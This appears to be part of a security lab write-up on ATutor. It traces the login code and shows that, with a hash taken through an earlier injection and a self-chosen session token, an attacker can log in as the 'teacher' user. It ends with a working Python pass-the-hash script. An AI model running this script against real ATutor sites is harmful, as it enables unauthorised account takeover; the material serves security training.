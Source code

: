 ## Analyzing The Authentication Mechanism
Now, that we can exfiltrate data from the database, we can use our script to exfiltrate user password hashes and crack them to get clear text passwords.
However, we need to find a more convinient way to bypass the authentication mechanism to get authenticated to the web application.

We can start off buy capturing a login request from the atutor web application:

![](../../Screenshots/t1-ss28.png)

First thing that we notice is, ne of the parameters passed to the server for authentication is _form_password_hidden_, which appears to hold the password hash.
This supports the assumption that there's no clear text password and only a password hash.

The values do not match, to the hashed value in the database, meaning further processing of the user-controlled data is taking place prior to authentication.
In order to understand what's going on, we can move to login.php and understand what's going on.

![](../../Screenshots/t1-ss29.png)

The file points us to login_functions.inc.php
We head to the file and start to analyze it.

One thing that catches our eye is following:

![](../../Screenshots/t1-ss30.png)

If the POST token variable is set, then then it is used to setr the SESSION token variable.
Session tokens are always an interesting item to keep track of as they are used in unexpected ways at times.

Analyzing further:

![](../../Screenshots/t1-ss31.png)

We see that if we're not using coookie based authentication, the code falls throught the _else if_ branch, where it has to variables that are user controlled i.e. $this_password and $this_login. We can cross-check this by analyizing our previously burp captured request.

Next, in the code we come closer to the main login function, we arrive at the point where the code builds the sql query.

![](../../Screenshots/t1-ss32.png)

We see that the addslashes function is in place(even though it is not working as we discussed in the previous section).
But this time, the queryDB function has been used correctly, thus an sql injection will not be possible.

Reading the code further, we see the main login query being formed as follows:
```php
} else {
	$row = queryDB("SELECT member_id, login, first_name, second_name, last_name, preferences, language, status, password AS pass, last_login FROM %smembers WHERE (login='%s' OR email='%s') AND SHA1(CONCAT(password, '%s'))='%s'", array(TABLE_PREFIX, $this_login, $this_login, $_SESSION['token'], $this_password), TRUE);
		}

//Breaking down the main parts of the code, it looks like so:

...AND SHA1(CONCAT(password, $_SESSION['token']))=$this_password;
```

We know that, we can control the session token. And also, $this_password variable is controlled by us.
The only unknown parameter, is password, which we can extract from the database from the previous vulnerability.

If this query is satisfied, then we fall to the next part of the code where the authentication happens and we're logged in:

![](../../Screenshots/t1-ss33.png)

## Exploiting The Authentication Mechanism
With a few updates in our script we now have our hands on the login hash for the teacher user.

Now, we need to calculate how the POST form_password_hidden variable is being set.
This can be easily calculated by visiting the following files:
```path
ATutor/themes/simplified_desktop/login.tmpl.php
ATutor/themes/simplified_desktop/registration.tmpl.php
```

The code that encrpyts the password is following:
```php
function encrypt_password() {
        document.form.form_password_hidden.value = hex_sha1(hex_sha1(document.form.form_password.value) + "<?php echo $_SESSION['token']; ?>");
        document.form.form_password.value = "";
        return true;

```

To recreate this we can simply create a python function that encrypts our hash with the following code:

```python
import sys, hashlib, requests

def gen_hash(passwd, token):
	m = hashlib.sha1()
	m.update(passwd + token)
	return m.hexdigest()

def we_can_login_with_a_hash():
    target = "http://%s/ATutor/login.php" % sys.argv[1]
    token = "hax"
    hashed = gen_hash(sys.argv[2], token)
    d = {
        "form_password_hidden" : hashed,
        "form_login": "teacher",
        "submit": "Login",
        "token" : token
    }
    s = requests.Session()
    r = s.post(target, data=d)
    res = r.text
    if "Create Course: My Start Page" in res or "My Courses: My Start Page" in res:
        return True
    return False

def main():
    if len(sys.argv) != 3:
        print "(+) usage: %s <target> <hash>" % sys.argv[0]
        print "(+) eg: %s 192.168.121.103 56b11a0603c7b7b8b4f06918e1bb5378ccd481cc" % sys.argv[0]
        sys.exit(-1)
    if we_can_login_with_a_hash():
        print "(+) success!"
    else:
        print "(-) failure!"

if __name__ == "__main__":
    main()

```

Running the script we get a successful login:

![](../../Screenshots/t1-ss34.png)